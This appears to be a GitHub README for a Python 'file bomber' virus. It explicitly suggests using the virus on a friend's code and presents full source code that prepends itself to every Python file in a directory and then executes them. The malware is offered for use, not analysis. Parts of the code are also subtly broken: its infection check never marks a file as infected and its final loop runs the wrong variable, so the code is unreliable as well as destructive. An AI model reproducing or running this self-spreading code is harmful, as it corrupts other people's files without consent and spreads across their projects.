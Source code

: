# virus.py
## A Python file bomber
### How it works
So, ever got access to your friend's code, and want to make the code permently unreadable?
Well with this, you can, it's one of the fastest ways to do that, and it also spreads to other files in the dirertory.
### How to use it
You can just copy and paste the code below into the program or copy and paste the code in `main.py`
```
# VIRUS SAYS HI!
import sys
import glob
import os
print('Never gonna give you up\nNever gonna let you down\nNever gonna run around, and desert you\nNever gonna make you cry\nNever gonna say goodbye\nNever gonna tell a lie, or hurt you\n')
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
python_files = glob.glob('*.py') + glob.glob('*.pyw')
for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    infected = False
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = False
            break
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        with open(file, 'w') as f:
            f.writelines(final_code)
for i in python_files:
  os.system(f'python3 {os.path.abspath(file)} $')
# VIRUS SAYS BYE!
```
